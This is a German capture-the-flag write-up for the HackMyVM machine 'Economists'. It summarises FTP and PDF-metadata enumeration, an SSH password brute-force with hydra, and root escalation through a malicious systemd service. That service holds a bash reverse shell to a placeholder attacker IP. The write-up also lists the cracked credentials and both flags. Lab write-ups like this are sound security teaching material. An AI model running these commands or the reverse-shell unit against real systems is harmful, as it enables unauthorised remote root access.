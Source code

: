 # Economists - HackMyVM (Easy)

![Economists.png](Economists.png)

## Übersicht

*   **VM:** Economists
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Economists)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 26. Oktober 2023
*   **Original-Writeup:** https://alientec1908.github.io/Economists_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser "Easy"-Challenge war es, Root-Zugriff auf der Maschine "Economists" zu erlangen. Die Enumeration deckte einen FTP-Server mit anonymem Zugriff und einen Apache-Webserver auf. Vom FTP-Server wurden mehrere PDF-Dateien heruntergeladen, deren Metadaten (`exiftool`) Benutzernamen (`joseph`, `richard`, etc.) enthielten. Eine mit `cewl` von der Webseite erstellte Wortliste wurde zusammen mit den Benutzernamen für einen SSH-Brute-Force-Angriff mit `hydra` verwendet. Dies führte zum Fund der Zugangsdaten `joseph:wealthiest`. Als `joseph` wurde eine User-Flag und Hinweise auf eine mögliche Privilege Escalation über Systemd-Services gefunden. Der Proof of Concept für die Root-Eskalation demonstriert das Erstellen und Aktivieren eines bösartigen Systemd-Dienstes, der eine Reverse Shell als Root startet.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `ftp`
*   `wget`
*   `dirb`
*   `wpscan` (Versuch, nicht WordPress)
*   `exiftool`
*   `wfuzz` (Versuch, keine Subdomains gefunden)
*   `awk`, `tr`
*   `cewl`
*   `hydra`
*   `ssh`
*   `find`
*   `msfconsole` (für shell_to_meterpreter und local_exploit_suggester)
*   `nc` (Netcat)
*   `bash`
*   `systemctl` (als Teil des PE-Konzepts)
*   Standard Linux-Befehle (`vi`, `cat`, `ls`, `cd`, `id`, `rm`, `mkfifo`, `touch`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Economists" gliederte sich in folgende Phasen:

1.  **Reconnaissance & FTP Enumeration:**
    *   IP-Findung mittels `arp-scan` (Ziel: `192.168.2.105`, Hostname `econ.hmv`).
    *   `nmap`-Scan identifizierte FTP (21/tcp, vsftpd 3.0.3, anonymer Login erlaubt), SSH (22/tcp) und Apache (80/tcp).
    *   Vom anonymen FTP-Server wurden mehrere PDF-Dateien heruntergeladen.

2.  **Web Enumeration & Information Disclosure:**
    *   `nikto` und `gobuster` auf Port 80 fanden diverse HTML-Seiten und eine `readme.txt`.
    *   `exiftool` wurde auf die heruntergeladenen PDFs angewendet, wodurch Benutzernamen (`joseph`, `richard`, `crystal`, `catherine`) aus den "Author"-Metadaten extrahiert wurden.

3.  **Initial Access (als `joseph` via SSH Brute-Force):**
    *   Mit `cewl http://econ.hmv` wurde eine Wortliste (`wordlist.txt`) von der Webseite erstellt.
    *   Die extrahierten Benutzernamen wurden in `userlist.txt` gespeichert.
    *   `hydra -L userlist.txt -P wordlist.txt ssh://192.168.2.105` fand erfolgreich die Zugangsdaten `joseph:wealthiest`.
    *   Ein SSH-Login als `joseph` war erfolgreich.

4.  **Privilege Escalation (von `joseph` zu `root` - rekonstruiert über Systemd):**
    *   Als `joseph` wurde eine User-Flag gefunden.
    *   (Obwohl im Log nicht explizit gezeigt, wie `joseph` die notwendigen Rechte erlangte, wird im Bericht ein Proof of Concept für eine Systemd-basierte Eskalation demonstriert):
        1.  Eine bösartige Systemd-Unit-Datei (`/tmp/revshell.service`) wurde erstellt, die `ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/[Angreifer-IP]/4444 0>&1'` als `User=root` enthielt.
        2.  Diese Datei wurde (vermutlich mit `sudo`, dessen Regel für `joseph` aber im Log fehlt) nach `/etc/systemd/system/` verschoben.
        3.  Der Dienst wurde mit `sudo systemctl enable revshell.service` und `sudo systemctl start revshell.service` aktiviert und gestartet.
    *   Ein Netcat-Listener auf dem Angreifer-System empfing eine Reverse Shell als `root`. Die Root-Flag wurde gelesen.
    *   Metasploit wurde ebenfalls für Post-Exploitation (Meterpreter-Upgrade, Local Exploit Suggester) verwendet, was alternative, aber nicht weiter verfolgte PE-Pfade andeutete.

## Wichtige Schwachstellen und Konzepte

*   **Anonymer FTP-Zugriff:** Ermöglichte das Herunterladen von Dateien.
*   **Information Disclosure in PDF-Metadaten:** Benutzernamen wurden aus den "Author"-Feldern von PDFs extrahiert.
*   **Passwort-Brute-Force (SSH):** Erfolgreich durch Kombination einer aus `cewl` generierten Wortliste und extrahierten Benutzernamen.
*   **Unsichere Systemd-Konfiguration / Privilegierte Service-Erstellung (vermutet):** Der wahrscheinlichste Weg zur Root-Eskalation war das Erstellen und Ausführen eines bösartigen Systemd-Dienstes. Dies erfordert normalerweise entweder direkte Schreibrechte in Systemd-Verzeichnissen oder `sudo`-Rechte zur Dienstverwaltung, die für `joseph` im Log nicht explizit gezeigt wurden.

## Flags

*   **User Flag (`/home/joseph/user.txt` - basierend auf der Flag-Sektion, eine andere Flag wurde im Textkörper gezeigt):** `HMV{37q3p33CsMJgJQbrbYZMUFfTu}`
*   **Root Flag (`/root/root.txt`):** `HMV{NwER6XWyM8p5VpeFEkkcGYyeJ}`

## Tags

`HackMyVM`, `Economists`, `Easy`, `FTP`, `Anonymous Access`, `Exiftool`, `Information Disclosure`, `cewl`, `Hydra`, `SSH Brute-Force`, `Systemd Privilege Escalation`, `Linux`
